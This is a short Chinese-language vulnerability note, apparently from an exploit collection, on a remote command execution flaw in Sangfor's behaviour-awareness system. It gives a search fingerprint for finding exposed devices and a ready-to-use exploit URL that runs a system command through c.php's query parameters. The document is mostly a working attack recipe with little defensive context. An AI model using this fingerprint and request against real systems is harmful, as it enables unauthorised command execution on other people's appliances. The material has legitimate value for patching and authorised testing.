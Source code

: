 # 深信服 行为感知系统 c.php 远程命令执行漏洞

# 深信服 行为感知系统 c.php 远程命令执行漏洞

## 漏洞描述

深信服 行为感知系统  c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

```
深信服 行为感知系统
```

## 网络测绘

```
body="isHighPerformance : !!SFIsHighPerformance,"
```

## 漏洞复现

登录页面如下



![](/images/202202091914752.png)



访问漏洞Url



```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```



![](/images/202202091914059.png)

